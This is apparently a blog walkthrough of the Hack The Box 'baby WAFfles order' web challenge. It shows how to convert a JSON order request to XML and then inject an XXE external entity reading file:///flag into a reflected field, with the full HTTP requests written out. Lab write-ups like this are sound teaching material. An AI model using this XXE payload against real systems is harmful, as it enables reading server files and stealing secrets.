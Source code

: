 ```yaml
---
title: "baby WAFfles order"
date: 2021-10-08T12:49:00-00:00
publishdate: 2021-07-19T18:00:00-00:00
releasedate: 2020-11-19T00:00:00-00:00
draft: false
hideTitle: false
Cover: /images/matrix-map.jpeg
CoverCaption: "Map of the world, shown in green zeroes and ones like the Matrix"
icon: /images/padlock-square.png
toc: true
tags: ["SQL", "Broken API"]
categories: ["Challenge", "Walkthrough", "HTB", "Web", "Easy"]
description: "Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!"
---
```

## FIRST TAKE

Download the challenge files: it is a docker, showing you the source code for the whole challenge.

> Obvious hint: the title of the website is **<u>xxe</u>**

![Screenshot 2021-10-08 13:28:52](Screenshot%202021-10-08%2013:28:52.png)

Read all the source code, understand how the web app works. In essence, the challenge is an order-taking API for a fictional restaurant, taking orders for either **Ice Scream** or **WAFfles**. Orders may be submitted to /api/order as:

- application/json
- application/xml


## CONVERTING REQUEST TO XML

It appears that the website is configured to submit orders as json, but the endpoint will still accept xml. Try running the docker and interacting with it: submit an order and catch the request in Burp. The POST will have content-type application/json, but go ahead and convert it to the equivalent XML request:

> Change the request Content-Type, Content-Length, and body to match:

```http
POST /api/order HTTP/1.1
Host: 68.183.41.74:31284
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://68.183.41.74:31284/
Content-Type: application/xml
Origin: http://68.183.41.74:31284
Content-Length: 97
Connection: close
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImZha2VuYW1lIn0%3D

<?xml version='1.0'?>
<foo>
 	<table_num>"3"</table_num>
 	<food>"Ice Scream"</food>
</foo>

```

Submitting the above request shows the app is listening for XML.


## ADAPTING TO XXE

The site is called xxe, so let's try the most basic xxe based on the above request. We already know two things:

- The path to the flag  (since we were given the source code)
   The flag should reside in the root folder: **/flag**
- The parameter in the message body that will be reflected to the client
  The **food** is reflected when the order is confirmed

So we should read the file /flag and inject into **food** so we can see it directly.

```html
POST /api/order HTTP/1.1
Host: 68.183.41.74:31284
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://68.183.41.74:31284/
Content-Type: application/xml
Origin: http://68.183.41.74:31284
Content-Length: 206
Connection: close
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImZha2VuYW1lIn0%3D

<?xml version='1.0'?>
<!DOCTYPE anything [
<!ELEMENT anything ANY>
<!ENTITY file SYSTEM "file:///flag">
]>
<anything>
 	<table_num>"3"</table_num>
 	<food>
		"Ice Scream"
		&file;
	</food>
</anything>

```

Submitting the above request will produce the flag:

![success](success.png)
